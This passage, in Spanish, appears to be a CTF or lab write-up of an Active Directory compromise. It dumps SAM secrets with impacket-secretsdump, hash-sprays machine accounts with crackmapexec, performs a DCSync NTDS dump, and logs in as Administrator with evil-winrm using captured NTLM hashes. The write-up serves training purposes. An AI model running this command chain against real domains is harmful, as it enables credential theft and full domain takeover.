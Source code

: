 Ahora ya tenemos lo necesario para dumpear la SAM del DC
```
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```
![image](https://github.com/user-attachments/assets/4dbb6d56-ebf0-44ba-a2e2-67af82957eed)
 
Podemos observar que tenemos algunos hashes NTLMv1, probamos con el Administrator pero no hay éxito
```
crackmapexec smb 14.14.1.29 -u 'Administrator' -H '209c6174da490caeb422f3fa5a7ae634'
```
![image](https://github.com/user-attachments/assets/68b2e772-3f81-40be-8eae-4dfffc642c41)
 
Pero como podemos ver en el dump, vemos que hay otros hashes, guest, DefaultAccount y el de MACHINE_ACC.

Una Machine Account o cuenta de máquina es un tipo especial de cuenta en un dominio de Active Directory (AD) que representa un equipo (o servidor) que se une al dominio. Estas cuentas son fundamentales para la autenticación y la seguridad de los equipos en redes administradas centralmente, como los dominios de Windows.

Para ver estas machine accounts, las podemos ver con el dump de ldapdomaindump

![image](https://github.com/user-attachments/assets/505a34e6-f5e2-48c9-ba4e-bdf9d663e887)
 
Como podemos observar hay un montón, por lo que nos vamos a guardar los SAM name y vamos a realizar un hash spraying a todas estas cuentas de maquina
Para ello, la herramienta ldapdomaindump, ha generado varios ficheros .grep, lo que haremos será sacar esa columna con el siguiente comando;
```
cat domain_computers.grep | awk '{print $2}' > machine_acc.txt
``` 
![image](https://github.com/user-attachments/assets/7b51e18d-37b5-4b42-afb1-c1e767fb3fe6)

![image](https://github.com/user-attachments/assets/7695d13c-fb50-4ce8-bcaa-eb1970160e23)
 
Ahora con cme, vamos a ver si hay algún credencial válido.
```
crackmapexec smb 14.14.1.29 -u machine_acc.txt -H '0cea7e533edfd7fb48f91fc6e6b8a8bf'
```
![image](https://github.com/user-attachments/assets/e3794037-5ebf-47cd-9f83-1a55a2b63881)
 
Con estas credenciales vamos a realizar un ataque dcsync attack para dumpear todo el NTDS del AD.
```
crackmapexec smb 14.14.1.29 -u 'DC01$' -H '0cea7e533edfd7fb48f91fc6e6b8a8bf' –ntds
```
![image](https://github.com/user-attachments/assets/442da7fc-40f1-4cb3-9fc3-05f3841b6274)
 
Tenemos el HASH de Administrator, por lo que vamos a conectarnos mediante winrm para conseguir las flags
```
evil-winrm -i 14.14.1.29 -u 'Administrator' -H '8982babd4da89d33210779a6c5b078bd'
```
![image](https://github.com/user-attachments/assets/c8c54a44-92a5-499f-9ad0-d473e2493df4)
 